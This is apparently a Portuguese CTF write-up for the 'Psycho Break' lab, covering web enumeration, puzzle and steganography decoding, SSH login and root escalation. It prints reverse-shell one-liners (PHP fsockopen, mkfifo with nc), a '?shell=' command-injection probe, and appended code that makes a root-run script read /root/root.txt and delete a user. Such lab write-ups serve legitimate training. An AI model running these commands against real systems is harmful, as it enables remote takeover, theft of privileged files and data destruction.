# _**Psycho Break CTF**_


## _**Enumeração**_
Primeiro, vamos começar com um scan <mark>Nmap</mark>
> ```bash
> nmap -p 0-9999 -A -T5 [ip_address]
> ```


Vamos também realizar um scan <mark>Gobuster</mark>
> ```bash
> gobuster dir --url [ip_address] -w ../Discovery/Web-Content/common.txt
> ```


Vamos investigar os diretórios descobertos
Primeiro, começando com <mark>/index.php</mark>
Uma mensagem sobre o início do jogo
Procurando pelo código da página, temos uma pista: <mark>/sadistRoom</mark>  



Parece que temos mais uma pista, agora, uma chave  



Clicando no link, temos a chave  
Usando <mark>hash-identifier</mark>, temos uma resposta, possivelmente, md5  



Quando voltei para a página web, recebemos a seguinte mensagem



Inserimos a chave que nos foi fornecida
E temos a página



Parece que temos que decifrar algo para obter acesso ao mapa que nos foi concedido: _**Tizmg_nv_zxxvhh_gl_gsv_nzk_kovzhv**_  
Pedindo uma ajuda para o amigo gpt, temos que '_parece estar cifrada com o código de Atbash, uma cifra simples onde cada letra do alfabeto é substituída por sua oposta'_  
Tradução: <mark>Grant me access to the map, please</mark>  
Clicando no link e inserindo a chave que nos foi fornecida, temos:  



Apenas faltou um _underline_ entre as palavras  
Temos acesso  



Vamos acessar primeiro <mark>/safe_haven</mark>  



Uma mensagem no código da página  



Uma mensagem em <mark>base64</mark>  
Vamos tentar decifrar com ```echo```
> ```bash
> echo [string] | base64 -d
> ```


Parece que isso não levou a nada  
A mensagem parece dizer para procurar nos diretórios <mark>../js/jquery.min.js</mark> e também <mark>../js/lightbox.js</mark>  
Ambos estão ilegíveis, não podendo separar muito ou se quer buscar algo
Mas, temos uma solução!  
Para isso, vamos utilizar a ferramenta <mark>ffuf</mark>
> ```bash
> ffuf -u http://10.10.245.123/SafeHeaven/FUZZ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -recursion
> ```


Assim, encontramos um novo diretório  
Vamos acessá-lo  
Agora, para a segunda chave  



Rapidamente somos levados a uma página da qual precisamos decifrar de onde é uma determinada imagem  
Sem tempo a perder, salvamos a imagem e utilizamos o _**google**_ para pesquisar  
Encontramos que é <mark>St. Augustine Lighthouse</mark>  



Conseguimos a chave!



Vamos para a próxima sala



Da próxima sala, temos  



Clicando no link e investigando o código da página, temos  



Digitando <mark>?shell=ls</mark>, temos resposta do servidor  
Podemos usar ```netcat``` para obtermos uma shell reversa  
Não funcionou  
Outra alternativa é usar um código PHP, <mark>php -r '$sock=fsockopen("[ip_address]",[port]);exec("/bin/sh -i <&3 >&3 2>&3");'</mark>  
Também não funcionou  



Também tentamos outro comando para tentar obter uma shell, <mark>rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc [ip_address] [port] >/tmp/f</mark>
Nada também  
O único comando até agora que funciona é ```ls```  
Após muitas muitas tentativas e nenhuma solução fui buscar ajuda na Internet e uma das dicas para travessia foi ```..```  



Colocando a string na url, escapamos e temos acesso para a próxima página  



Baixando o arquivo .zip e usando <mark>binwalk</mark>, conseguimos extrair seus arquivos



Investigando os arquivos extraídos  



Usamos <mark>binwalk</mark> novamente para extrair os arquivos dentro do arquivo .jpg
E temos resultados promissores  



Um destes arquivos é um arquivo de áudio do qual está em código morse  
Vamos desvendar  
Usando um decodificador online, temos uma resposta  



Utilizando <mark>steghide</mark>, conseguimos obter um arquivo .txt da imagem .jpg que estava dentro da imagem .jpg

  

  

Basta realizar login via FTP e verificar os arquivos  
Temos dois  
Vamos extrair eles para o nosso computador com ```mget *```



Apóa a extração, vamos investigar estes arquivos  
Utilizando ```file```, verificamos os dois arquivos extraídos  
Temos o seguinte  

  

Parece que precisamos usar o dicionário, passando cada possibilidade de senha para o programa e aguardar o retorno de chave  
Vamos fazer isso com _**python**_  
> ```bash
> import os
> import subprocess
> import sys
> 
> f = open("random.dic", "r")
> 
> keys = f.readlines()
> 
> for key in keys:
> 	key = str(key.replace("\n", ""))
> 	print (key)
> 	subprocess.run(["./program", key])

Após a execução do código, temos a resposta  



Vamos decifrar o que está pedindo  
Parece ser mapeamento T9 clássico: **KIDMAN PASSWORD IS SO STRANGE**  
Vamos realizar login via SSH agora como <mark>kidman</mark>  



Um simples ```cat``` e obtemos a primeira flag

Vamos escalar privilégios agora
Após testar alguns comandos e verificar alguns arquivos, podemos tentar o seguinte  



Verificamos o arquivo .the_eye_of_ruvik.py  
Criamos um arquivo temporário em **/tmp/flag2**  
Damos permissão para este arquivo  
Verificamos essa permissão  
Damos ```echo``` no seguinte trecho de código  
> ```bash
> subprocess.call("cat /root/root.txt > /tmp/flag2", shell=True)' >> /var/.the_eye_of_ruvik.py
> ```
Isto passa uma chamada de _subprocesso_ para o arquivo que queremos (root.txt) com shell. Agora, basta aguardar a execução do arquivo .the_eye_of_ruvik.py
Basta um ```cat``` no arquivo que criamos e temos a nossa segunda flag!

Para remover o usuário _**ruvik**_, vamos executar a mesma ideia com o seguinte código:
> ```bash
> echo 'subprocess.call("deluser --remove-all-files ruvik", shell=True)' >> /var/.the_eye_of_ruvik.py
> ```
Basta esperar um pouco e chegar o diretório <mark>/home</mark> para não ver o usuário
